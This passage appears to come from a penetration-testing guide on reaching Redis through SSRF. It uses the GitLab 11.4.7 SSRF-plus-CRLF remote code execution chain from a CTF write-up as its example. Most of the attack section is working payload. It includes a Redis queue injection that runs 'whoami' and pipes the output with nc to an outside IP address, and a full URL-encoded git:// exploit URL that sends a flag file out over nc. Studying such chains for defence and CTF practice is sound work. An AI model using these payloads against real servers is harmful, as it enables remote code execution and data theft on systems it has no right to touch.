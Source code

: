 If you can send **clear text** request **to Redis**, you can **communicate with it** as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Therefore, if you find a **SSRF vuln** in a website and you can **control** some **headers** (maybe with a CRLF vuln) or **POST parameters**, you will be able to send arbitrary commands to Redis.

### Example: Gitlab SSRF + CRLF to Shell

In **Gitlab11.4.7** were discovered a **SSRF** vulnerability and a **CRLF**. The **SSRF** vulnerability was in the **import project from URL functionality** when creating a new project and allowed to access arbitrary IPs in the form \[0:0:0:0:0:ffff:127.0.0.1] (this will access 127.0.0.1), and the **CRLF** vuln was exploited just **adding %0D%0A** characters to the **URL**.

Therefore, it was possible to **abuse these vulnerabilities to talk to the Redis instance** that **manages queues** from **gitlab** and abuse those queues to **obtain code execution**. The Redis queue abuse payload is:

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

And the **URL encode** request **abusing SSRF** and **CRLF** to execute a `whoami` and send back the output via `nc` is:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```

_For some reason (as for the author of_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _where this info was took from) the exploitation worked with the `git` scheme and not with the `http` scheme._

## References
